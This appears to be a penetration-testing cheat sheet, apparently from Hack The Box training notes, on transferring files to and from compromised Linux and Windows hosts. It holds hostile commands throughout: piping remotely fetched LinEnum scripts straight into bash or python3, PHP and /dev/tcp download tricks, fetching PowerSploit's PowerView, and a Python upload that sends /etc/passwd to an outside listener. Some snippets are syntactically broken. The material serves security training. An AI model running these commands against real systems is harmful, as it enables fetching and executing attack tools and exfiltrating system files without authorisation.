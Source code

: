 # Linux File Transfers

- cURL
- wget
- base64 Encoding & Decoding
- Fileless attacks using cURL/wget, piping to bash/ Python
- Downloads with Bash (/dev/tcp)
- SSH Downloads
- Web Uploads

## Wget download

```bash
lemur@htb ~ $ wget https://raw.githubusercontent.com/rebootuser/LinEnum.sh -O /tmp/LinEnum.sh
```

## cURL download

```bash
lemur@htb ~ $ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum.sh
```

## Fileless attacks

Note that some payloads such as `mkfifo` write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS.

### Fileless downloads using cURL and Wget

```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum.sh | bash
wget -qO- https://raw.githubusercontent.com/rebootuser/helloworld.py | python3
```

### Download with bash (dev/tcp) 

Connect to target webserver:
```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

HTTP GET request:
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

Print the response:
```bash
cat <&3
```

## Ultimate File Transfer List

https://github.com/egre55/ultimate-file-transfer-list

## Using Code to transfer files

Just download it:
```py
python3 -c 

import urllib.request
urllib.request.urlretrieve(
	"https://raw.githubuser.com/rebootuser/LinEnum/main/LinEnum.sh", "LinEnum.sh"
	)

in python2.7 -c is just `import urllib; urllib.urlretrieve`
```

Just download it:
```php
php -r '
$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/main/LinEnum.sh");
file_put_contents("LinEnum.sh", $file);'
```
Pipe it to Bash:
```php
php -r $lines = @file(
	"https://raw.githubusercontent.com/rebootuser/LinEnum/main/LinEnum.sh"
);
foreach ($lines as $line_enum => $line) {
	echo $line;
}' | bash
```
Use Popen:
```php
php -r 
	const BUFFER = 1024;

	$fremote = fopen(
		"https://raw.githubusercontent.com/rebootuser/LinEnum/main/LinEnum.sh", "rb"
	);
	$flocal = fopen(
		"LinEnum.sh", "wb"
	);
	
	while ($buffer = fread($fremote, BUFFER)) {
		fwrite($flocal, $buffer);
	}
	fclose($flocal);
	fclose($fremote);
```

Just download it:
```ruby
ruby -e 
	require "net/http";

	File.write("LinEnum.sh", Net::HTTP.get(URI.parse(
		"https://raw.githubusercontent.com/rebootuser/LinEnum/main/LinEnum.sh"
		)
	)
)
```

Just download it:
```perl
perl -e
	use LWP::Simple;
	getstore("https://raw.githubusercontent.com/LinEnum/main/LinEnum.sh", "LinEnum.sh");
```

Scripting using JavaScript:
```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");

WinHttpReq.Open("GET", Wscript.Arguments(0), /*async=*/false);
WinHttpReq.Send();

BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

Run the JS in Windows:
```PS
C:\> cscript.exe \nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

Wget.vbs:
```vbs
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")

xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
	.type = 1
	.open
	.write xHttp.responsebody
	.savetofile WScript.Arguments.Item(1), 2
end with
```

## Upload files with Code

```py
python3 -m uploadserver
```
```py
python3 -c 
	import requests;
	requests.post(
		"http://192.168.49.128:8000/upload",files={
		"files":open("/etc/passwd","rb")
		}
	)
```